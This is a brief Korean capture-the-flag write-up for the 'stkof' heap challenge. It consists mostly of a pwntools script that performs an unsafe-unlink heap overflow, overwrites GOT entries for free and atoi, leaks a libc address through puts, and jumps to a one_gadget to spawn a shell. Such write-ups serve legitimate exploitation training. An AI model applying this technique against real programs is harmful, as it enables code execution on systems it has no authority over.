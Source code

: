 free

bss의 pointer도 지워버린다. 그리고 이 문제 chunk idx는 1 부터 시작

overflow가 갱장히 편하니 바로 unlink 해주고 sleepyholder 처럼 atoi와 free를 이용해서 풀었다.

```python
from pwn import *

t = process('./stkof')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def alloc(size):
	s("1")
	s(str(size))

def input(a,b,c):
	s("2")
	s(str(a))
	#pause()
	s(str(b))
	#pause()
	s(str(c))

def fre(a):
	s("3")
	s(str(a))

def maybe_print(a):
	s("4")
	s(str(a))

atoi_got = 0x602080
puts_plt = 0x0000000000400760
puts_got = 0x602020
free_got = 0x602018

alloc(0x100) # Dummy chunk(Not setvbuf)
alloc(0x100)
alloc(0x100)

p = p64(0) + p64(0x100) + p64(0x602150-0x18) + p64(0x602150-0x10) + "a"*(0x100-0x20) + p64(0x100) + p64(0x110)

input(2,len(p),p)
fre(3)
r("OK")

p = p64(0)*3 + p64(atoi_got) + p64(free_got) + p64(atoi_got)

input(2,len(p),p)
input(3,8,p64(puts_plt))
fre(2)
r("FAIL")
r("FAIL")
r("FAIL\n")

libc = u64(t.recv(6).ljust(8,'\x00')) - 0x36ea0
log.success("libc ==> " + hex(libc))
one = libc + 0xf02a4

input(3,8,p64(one))
fre(4)
```